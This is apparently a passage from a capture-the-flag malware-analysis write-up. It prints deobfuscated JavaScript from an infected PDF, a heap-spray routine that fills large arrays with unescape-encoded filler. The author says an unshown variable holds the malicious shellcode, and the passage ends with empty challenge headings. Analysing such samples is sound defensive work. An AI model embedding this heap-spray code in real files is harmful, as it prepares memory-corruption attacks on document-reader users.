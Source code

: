 var var4 = "";
for (i=128; i&gt;=0; --i)
{
    var4 += unescape("%ub32f%u3791");
}

var5 = var4 + var3;
var6 = unescape("%ub32f%u3791");
var8 = 20 + var5.length

while (var6.length &lt; var8)
{
    var6 += var6;
}

var9 = var6.substring(0, var8);
var10 = var6.substring(0, var6.length - var8);

while(var10.length+var8 &lt; 0x40000)
{
    var10 = var10 + var10 + var9;
}

var11 = new Array();

for (i=0; i&lt;100; i++)
{
    var11[i] = var10 + var5;
}

for (i=142; i&gt;=0; --i)
{
    var2 += unescape("%ub550%u0166");
}

var12 = var2.length + 20
while (var2.length &lt; var12)
{
    var2 += var2;
}

var13 = var2.substring(0, var12);
var14 = var2.substring(0, var2.length-var12);

while(var14.length + var12 &lt; 0x40000)
{
    var14 = var14 + var14+var13;
}

var15 = new Array();

for (i=0;i&lt;125;i++)
{
    var15[i] = var14 + var2;
}
</code></pre><p>The most important part is the contents of the variable <code>var3</code>, which should be some malicious shellcode.</p><p>Some references I found useful for this challenge:</p><ul><li><a href="https://www.adlice.com/infected-pdf-extract-payload/">Infected PDF: How to Extract the Payload | Analysis - Adlice Software</a></li></ul><h3 id="challenge-05">Challenge 05</h3><h3 id="challenge-06">Challenge 06</h3><h3 id="challenge-07">Challenge 07</h3>
